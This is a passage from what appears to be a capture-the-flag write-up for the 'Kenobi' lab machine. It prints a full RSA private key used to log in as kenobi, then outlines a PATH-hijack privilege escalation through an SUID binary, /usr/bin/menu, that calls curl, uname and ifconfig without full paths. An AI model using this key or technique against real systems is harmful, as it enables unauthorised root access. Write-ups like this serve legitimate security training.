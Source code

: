 ```
MIIEowIBAAKCAQEA4PeD0e0522UEj7xlrLmN68R6iSG3HMK/aTI812CTtzM9gnXs
qpweZL+GJBB59bSG3RTPtirC3M9YNTDsuTvxw9Y/+NuUGJIq5laQZS5e2RaqI1nv
U7fXEQlJrrlWfCy9VDTlgB/KRxKerqc42aU+/BrSyYqImpN6AgoNm/s/753DEPJt
dwsr45KFJOhtaIPA4EoZAq8pKovdSFteeUHikosUQzgqvSCv1RH8ZYBTwslxSorW
y3fXs5GwjitvRnQEVTO/GZomGV8UhjrT3TKbPhiwOy5YA484Lp3ES0uxKJEnKdSt
otHFT4i1hXq6T0CvYoaEpL7zCq7udl7KcZ0zfwIDAQABAoIBAEDl5nc28kviVnCI
ruQnG1P6eEb7HPIFFGbqgTa4u6RL+eCa2E1XgEUcIzxgLG6/R3CbwlgQ+entPssJ
dCDztAkE06uc3JpCAHI2Yq1ttRr3ONm95hbGoBpgDYuEF/j2hx+1qsdNZHMgYfqM
bxAKZaMgsdJGTqYZCUdxUv++eXFMDTTw/h2SCAuPE2Nb1f1537w/UQbB5HwZfVry
tRHknh1hfcjh4ZD5x5Bta/THjjsZo1kb/UuX41TKDFE/6+Eq+G9AvWNC2LJ6My36
YfeRs89A1Pc2XD08LoglPxzR7Hox36VOGD+95STWsBViMlk2lJ5IzU9XVIt3EnCl
bUI7DNECgYEA8ZymxvRV7yvDHHLjw5Vj/puVIQnKtadmE9H9UtfGV8gI/NddE66e
t8uIhiydcxE/u8DZd+mPt1RMU9GeUT5WxZ8MpO0UPVPIRiSBHnyu+0tolZSLqVul
rwT/nMDCJGQNaSOb2kq+Y3DJBHhlOeTsxAi2YEwrK9hPFQ5btlQichMCgYEA7l0c
dd1mwrjZ51lWWXvQzOH0PZH/diqXiTgwD6F1sUYPAc4qZ79blloeIhrVIj+isvtq
mgG2GD0TWueNnddGafwIp3USIxZOcw+e5hHmxy0KHpqstbPZc99IUQ5UBQHZYCvl
SR+ANdNuWpRTD6gWeVqNVni9wXjKhiKM17p3RmUCgYEAp6dwAvZg+wl+5irC6WCs
dmw3WymUQ+DY8D/ybJ3Vv+vKcMhwicvNzvOo1JH433PEqd/0B0VGuIwCOtdl6DI9
u/vVpkvsk3Gjsyh5gFI8iZuWAtWE5Av4OC5bwMXw8ZeLxr0y1JKw8ge9NSDl/Pph
YNY61y+DdXUvywifkzFmhYkCgYB6TeZbh9XBVg3gyhMnaQNzDQFAUlhM7n/Alcb7
TjJQWo06tOlHQIWi+Ox7PV9c6l/2DFDfYr9nYnc67pLYiWwE16AtJEHBJSHtofc7
P7Y1PqPxnhW+SeDqtoepp3tu8kryMLO+OF6Vv73g1jhkUS/u5oqc8ukSi4MHHlU8
H94xjQKBgExhzreYXCjK9FswXhUU9avijJkoAsSbIybRzq1YnX0gSewY/SB2xPjF
S40wzYviRHr/h0TOOzXzX8VMAQx5XnhZ5C/WMhb0cMErK8z+jvDavEpkMUlR+dWf
Py/CLlDCU4e+49XBAPKEmY4DuN+J2Em/tCz7dzfCNS/mpsSEn0jo
-----END RSA PRIVATE KEY-----
```
With this ssh key we can log in to the system as kenobi.

### PRIV ESC
```
[+] SUID - Check easy privesc, exploits and write perms
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#commands-with-sudo-and-suid-commands
...
/usr/bin/menu
...
```
After running strings on this strange binary, we see that it is running curl, uname and ifconfig without a full file path. 

Using this, we can write a program to our path and run it from the /usr/bin/menu binary (which is running as root from SUID, but still uses our PATH) and get a shell as root.

```
kenobi@kenobi:~/bin$ echo $PATH
/home/kenobi/bin:/home/kenobi/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```
We already have writable directories at the start of our path, but if we didn't we could do it manually with `export PATH=/home/kenobi/exploit:$PATH`.
